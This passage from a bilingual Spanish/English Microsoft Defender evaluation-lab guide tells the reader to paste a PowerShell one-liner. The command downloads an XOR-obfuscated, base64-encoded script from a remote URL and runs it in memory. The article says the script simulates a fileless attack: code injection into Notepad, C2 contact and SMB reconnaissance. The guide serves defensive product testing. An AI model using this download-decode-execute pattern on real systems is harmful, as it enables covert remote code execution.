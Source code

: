    ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="bcdcc-187">Si abre este artículo en un explorador web, es posible que tenga problemas para copiar el texto completo sin perder determinados caracteres ni introducir saltos de línea adicionales.</span><span class="sxs-lookup"><span data-stu-id="bcdcc-187">If you open this article on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="bcdcc-188">Si este es el caso, descargue este documento y ábralo en Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="bcdcc-188">If this is the case, download this document and open it on Adobe Reader.</span></span>

5. <span data-ttu-id="bcdcc-189">Pegue y ejecute el script copiado en la ventana de PowerShell.</span><span class="sxs-lookup"><span data-stu-id="bcdcc-189">Paste and run the copied script in the PowerShell window.</span></span>

> [!NOTE]
> <span data-ttu-id="bcdcc-190">Si ejecuta PowerShell con el protocolo de escritorio remoto (RDP), use el comando Escribir texto del Portapapeles en el cliente RDP porque es posible que la tecla rápida **CTRL-V** o el método de clic y pegado con el botón secundario no funcionen.</span><span class="sxs-lookup"><span data-stu-id="bcdcc-190">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="bcdcc-191">Las versiones recientes de PowerShell a veces tampoco aceptarán ese método, es posible que deba copiarlo en Bloc de notas en la memoria primero, copiarlo en la máquina virtual y, a continuación, pegarlo en PowerShell.</span><span class="sxs-lookup"><span data-stu-id="bcdcc-191">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="bcdcc-192">Unos segundos más tarde, se abrirá Bloc de notas aplicación.</span><span class="sxs-lookup"><span data-stu-id="bcdcc-192">A few seconds later, the Notepad app will open.</span></span> <span data-ttu-id="bcdcc-193">Se insertará un código de ataque simulado en Bloc de notas.</span><span class="sxs-lookup"><span data-stu-id="bcdcc-193">A simulated attack code will be injected into Notepad.</span></span> <span data-ttu-id="bcdcc-194">Mantenga abierta la instancia de Bloc de notas generada automáticamente para experimentar el escenario completo.</span><span class="sxs-lookup"><span data-stu-id="bcdcc-194">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="bcdcc-195">El código de ataque simulado intentará comunicarse con una dirección IP externa (simulando el servidor C2) y, a continuación, intentará reconocimiento con el controlador de dominio a través de SMB.</span><span class="sxs-lookup"><span data-stu-id="bcdcc-195">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="bcdcc-196">Verá este mensaje en la consola de PowerShell cuando se complete este script:</span><span class="sxs-lookup"><span data-stu-id="bcdcc-196">You'll see this message displayed on the PowerShell console when this script completes:</span></span>
